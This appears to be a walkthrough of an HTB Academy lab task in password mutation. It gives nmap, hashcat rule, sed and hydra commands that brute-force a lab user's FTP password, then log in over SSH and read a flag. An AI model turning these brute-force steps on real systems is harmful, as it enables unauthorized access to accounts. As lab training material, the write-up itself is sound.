 ## HTB Academy: Password Attacks Module - Password Mutations Section

### Task
Create a mutated wordlist using the files in the ZIP file under "Resources." Use this wordlist to brute-force the password for the user "sam." Once successful, log in via SSH and submit the flag from `flag.txt`.

### Steps:

1. **Run Nmap Scan**
   Identify open ports and services on the target machine:
   ```bash
   nmap -sV -Pn <$target_ip>
   ```
   Example output:
   ```
   PORT    STATE SERVICE     VERSION
   21/tcp  open  ftp         vsftpd 3.0.3
   22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
   139/tcp open  netbios-ssn Samba smbd 4.6.2
   445/tcp open  netbios-ssn Samba smbd 4.6.2
   ```

2. **Create Password List and Custom Rule**
   Using the files provided in the "Resources" section, create the `password.list` and `custom.rule`:
   ```bash
   sudo nano password.list
   sudo nano custom.rule
   ```

3. **Generate Mutated Wordlist**
   Use Hashcat to generate a mutated wordlist:
   ```bash
   hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list
   ```

4. **Filter Mutated Wordlist**
   Edit the mutated wordlist to filter passwords with a length of 11 or more characters:
   ```bash
   sed -n '/^[[:alnum:][:punct:]]\{11,\}$/p' mut_password.list
   ```

5. **Brute Force with Hydra**
   Use Hydra to find the password for the user "sam" on the FTP service:
   ```bash
   hydra -l sam -P mut_password.list ftp://<$target_ip> -t 48 -v
   ```
   Example successful output:
   ```
   [21][ftp] host: 10.129.x.xxx   login: sam   password: B@t********
   ```

6. **Log in via SSH**
   Connect to the target machine using the found credentials:
   ```bash
   ssh sam@<$target_ip>
   password: B@t********
   ```

7. **Find and Retrieve the Flag**
   Search for the flag file and read its contents:
   ```bash
   find / -name "flag.txt" 2>/dev/null
   ```
   Example:
   ```bash
   /home/sam/smb/flag.txt
   cat /home/sam/smb/flag.txt
   ```
   The flag is:
   ```
   HTB{P4**_*********}
   ```

### Conclusion
This task demonstrated how to use password mutation rules to generate a custom wordlist and perform a brute-force attack to retrieve the flag. 
## Happy Hacking!



